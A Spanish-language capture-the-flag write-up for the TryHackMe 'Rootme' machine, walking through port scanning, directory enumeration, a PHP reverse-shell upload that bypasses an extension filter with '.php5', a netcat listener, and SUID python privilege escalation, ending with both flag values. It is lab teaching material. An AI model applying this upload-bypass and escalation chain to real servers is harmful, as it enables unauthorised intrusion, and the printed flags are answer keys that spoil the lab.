

# Write-up: 

- **Nombre de la máquina:** `Rootme` 
- **Plataforma:** `TryHackMe` 
- **IP:** `10.10.190.178` 
- **SO:** `Linux` 
- **Dificultad:** `Easy`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```
	ping 172.17.0.2
```
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

<p align="center">
    
</p>


#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 10.10.190.178 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                    |
| ------ | -------- | ------------- | ------------------------ |
| 22     | ssh      | OpenSSH 8.2   | Necesitamos credenciales |
| 80     | http     | Apache 2.4.41 | Iniciaremos por aquí     |


<p align="center">
    
</p>


Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://10.10.190.178.
  
    Tenemos esta página de inicio: 

<p align="center">
    
</p>

- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
  
    No vemos nada:

<p align="center">
    
</p>

- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> V
	- `backup`--> X
	- `uploads`--> V
	- `test, etc.`--> X
    
    Encontramos dos directorios muy interesantes:
	- `/panel`--> podemos ver una lista de archivos que contiene el directorio. 
	- `/uploads`--> tenemso un panel de subida de archivos. 
#### Enumeración Automática:

- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 10.10.190.178
```

<p align="center">
    
</p>


Vemos que su Cookie es `PHPSESSID` por lo que podemos deducir el uso de php. 


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://10.10.190.178/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```


<p align="center">
    
</p>


**Hallazgos:**

- No vemos ninguna ruta llamativa que no hayamos encontrado en la enumeración manual:
	- /panel--> podemos ver una lista de archivos que contiene el directorio. Posible vulnerabilidad.
	- /uploads--> tenemos un panel de subida de archivos. 
  
#### Comprobación subida de archivos:

 1. Generamos una Reverse shell en   https://www.revshells.com/.
 Guardamos este código en un archivo que llamamos `revershell.php` y lo subimos desde `/panel`

<p align="center">
    
</p>

  
2. Copiamos este código en un archivo nano con extensión `php` al cual llamamos `revershell.php`.

<p align="center">
    
</p>

3. Lo subimos desde `/panel`

<p align="center">
    
</p>


Podemos observar que el servicio nos rechaza el archivo debido a su extensión `php`


5.  Modificamos la extensión por otra compatible por php en este caso `.php5` y subimos el archivo.

   
```
   mv revershell.php revershell.php5
```

<p align="center">
    
</p>


	Subimos el archivo con éxito
	
<p align="center">
    
</p>

   
De este modo si nos acepta el archivo. 


---


## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Teniendo el archivo `revershell.php5` subido al servidor vamos a ejecutarlo siguiendo estos pasos:

1. Levantamos un puerto de escucha con netcat:
```
	sudo nc -nvlp 8888
```

<p align="center">
    
</p>


2.  Vamos al directorio web `/uploads/` y hacemos click sobre el archivo que hemos subido `revershell.php5`

<p align="center">
    
</p>

  
  

3. De esta forma hemos conseguido establecer comunicación hacía nuestra terminal. 

<p align="center">
    
</p>


### Estabilización de la TTY:
Buscamos una shell que pueda interactuar de forma correcta en la terminal. 

```
script /dev/null -c bash
```

Enviamos segundo plano :
	Control +Z

```
stty raw -echo; fg
```
```
reset xterm
```
```
export SHELL=bash
```
```
export TERM=xterm
```


<p align="center">
    
</p>


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

쯈ué usuario somos?
`whoami`

<p align="center">
    
</p>


쮸 qué grupo pertenezco?
`id`

<p align="center">
    
</p>

 
 

쯈ué usuario hay en el sistema?
`cd home` y `ls`

<p align="center">
    
</p>

 

쯈ué usuario tienen una shell asignada?

```
cat /etc/passwd | grep sh
```

<p align="center">
    
</p>


Revisamos los directorios de los usuarios:

- test: 

<p align="center">
    
</p>


- rootme:

<p align="center">
    
</p>


Una buena práctica sería revisar los comandos utilizados por los usuarios en el `history`
#### Búsqueda del Vector de Escalada:

- **Binarios SUID/SGID:** 쮼xisten binarios con permisos especiales que puedan ser abusados?
    
    ```
    find / -perm -4000 2>/dev/null
    ```
    Encontramos binarios de los que podamos abusar.`python`
<p align="center">
    
</p>

<p align="center">
    
</p>


### 4.2. Explotación y Escalada a Root

Se ejecuta la técnica para obtener una shell como `root`.

**Referencia (GTFOBins.):** https://gtfobins.github.io/gtfobins/python/#suid

**Comando de explotación:**

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

**Verificación:**

```
whoami
```
<p align="center">
    
</p>


SOMOS ROOT 🚀


---

## 5. CAPTURA DE BANDERAS (FLAGS)

Con acceso privilegiado, se buscan y leen las banderas.

#### Bandera de Usuario (user.txt)

```
find  / -name user.txt 2>/dev/null
```

- **Ubicación:** `/var/www/user.txt`
    
- **Contenido:** `THM{y0u_g0t_a_sh3ll}`
    

#### Bandera de Root (root.txt)

```
find  / -name root.txt 2>/dev/null
```

- **Ubicación:** ` /root/root.txt`
    
- **Contenido:** `THM{pr1v1l3g3_3sc4l4t10n}`


